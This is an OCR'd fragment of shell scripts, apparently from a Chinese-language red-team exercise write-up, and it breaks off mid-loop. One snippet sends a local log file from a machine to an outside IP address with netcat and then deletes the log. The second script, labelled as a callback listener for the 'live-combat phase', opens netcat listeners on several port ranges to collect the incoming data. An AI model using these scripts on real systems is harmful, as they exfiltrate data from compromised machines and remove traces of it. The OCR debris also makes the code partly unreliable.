 continue

fi

rm -f tmp\$\$

(nc 10.95.14.216 \$num \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

break

else

sleep 10

continue

fi

done

实战阶段监听脚本:

\#!/bin/bash

\#回连监听

function recv(){

while true

do

nc -lvp \$1 \>\> realtime.\$1.log

echo -e "\\n" \>\> realtime.\$1.log

done

}

function recvlocal(){

while true

do

nc -lvp \$1 \>\> localrecord.\$1.log

echo -e "\\n" \>\> localrecord.\$1.log

done

}

for loop in {3344..3354};do

{

recv \$loop

}&

done

for loop in {8888..8890};do
